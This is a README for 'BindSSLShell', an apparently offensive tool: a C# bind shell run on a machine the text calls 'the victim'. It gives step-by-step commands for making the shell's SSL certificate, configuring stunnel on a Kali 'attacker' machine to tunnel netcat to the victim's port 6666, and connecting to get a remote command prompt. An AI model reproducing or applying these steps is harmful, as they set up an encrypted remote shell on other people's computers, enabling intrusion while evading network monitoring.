 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	1. apt-get install stunnel
1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	1.[nc]
	<br/>client = yes
	<br/>accept = localhost:8443
	<br/>connect = <Victim IP>:6666
	<br/>--- end of file ---
	<br/>so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	1. service stunnel4 start
		
1. check if it's running (optional)
	1. netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	1. nc localhost 8443
	
1. you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
